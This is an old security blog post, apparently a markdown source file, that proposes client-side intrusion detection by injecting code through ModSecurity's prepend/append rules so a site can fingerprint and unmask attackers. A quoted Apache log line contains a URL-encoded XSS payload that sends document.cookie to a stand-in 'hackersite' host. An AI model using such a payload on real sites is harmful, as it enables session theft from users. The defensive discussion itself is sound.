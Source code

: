 ```yaml
---
title: Content Injection - Hack the Hacker
author: david-kierznowski
date: Fri, 11 Apr 2008 13:52:19 GMT
template: this/views/post.jade
category: fucked
---
```


Traditional IDS/IPS systems occur at the network level, usually plugged into a spanning port on a switch. I love this concept and think it should be part of any defense in depth strategy. The two primary weaknesses in these devices are, (1) they cannot process encrypted streams and (2) they can often be circumvented with a little creativity. In this post I want to discuss using Client-Side IDS (C-IDS) for more advanced attack detection.

I don't know how realistic this would be but it could be fun concept to investigate. Imagine setting up modules on your reverse proxy. As user visits the site, different modules could get launched during different requests. One module could detect a user's browser plugins. One module could detect Tor and other services with Tor. Put the results into a hashing algorithm and you have a semi-unique client fingerprint regardless of IP address (although privacy laws could restrict these kinds of requests). OR, our reverse proxy could inject random code snippets of defense, overwriting and hijacking JavaScript functions (i.e. alert) with our own action (i.e. logging, blocking etc). Check out some of Mario's code snippets of defense for the idea: [here](/blog/snippets-of-defense-pti/), [here](/blog/snippets-of-defense-ptii/), [here](/blog/snippets-of-defense-ptiii/), and [here](/blog/snippets-of-defense-ptiv/)

So what benefits would a client-side IDS (C-IDS) provide?

* Client side code is interoperable. This means it can be rapidly deployed across any number of networks;
* Client side code works over encrypted sessions. We don't need to worry about SSL termination issues and reading into encrypted sessions;
* Client side code allows us to hook into the user's browser where the attacks are happening. This gives us greater control and the possibility to detect advanced anti-filter attacks (obfuscation & polymorphism.);
* Client side code allows us to attack the attacker. We could execute code to determine if the attacker is using Tor or any number of browser-related variables.

Basically, the same engine discussed for Web 2.0 worms could theoritically be used as an additional **defense in depth** tool. The latest version of [ModSecurity (2.5)](http://modsecurity.org/projects/modsecurity/apache/feature_content_injection.html) allows two new rules, `"prepend"` or `"append"`. These rules allow us to insert HTML/text into our HTTP responses. This type of flexability opens an entire range of doors. Great stuff guys! Here's an example from ModSecurity Content Injection article:

The following rule uses the same data as the previous example, except this time, instead of simply sending an alert pop-up box we are sending the `MyAddress.class` java applet. This code will force the attacker's browser to initiate a connection back to our web server.

	SecRule TX:ALERT "@eq 1" "phase:3,nolog,pass,chain,prepend:''"
	SecRule RESPONSE_CONTENT_TYPE "^text/html"

So, if an attacker sends a malicious request that ModSecurity triggers on, this rule will then fire and it will send the injected code to the client. Our Apache access_logs will show data similar to this:
 
	203.160.1.47 - - [20/Jan/2008:21:15:03 -0500] "GET /cgi-bin/foo.cgi?param=%3Cscript%3Edocument.write('%3Cimg%20src=%22http://hackersite/'+document.cookie+'%22')%3C/script%3E HTTP/1.1" 500 676
	203.160.1.47 - - [20/Jan/2008:21:15:03 -0500] "GET /cgi-bin/grab_ip.php?IP=222.141.50.175 HTTP/1.1" 404 207

As you can see, even though the IP address in the access_logs shows `203.160.1.47`, the data returned in the `QUERY_STRING` portion of the second line shows that the real IP address of the attacker is `222.141.50.175`. This would mean that in this case, the attacker's system was not on a private network (perhaps just connecting their computer directly to the internet). `Attacker's computer -> Proxy -> Proxy -> etc... -> Target Website`.
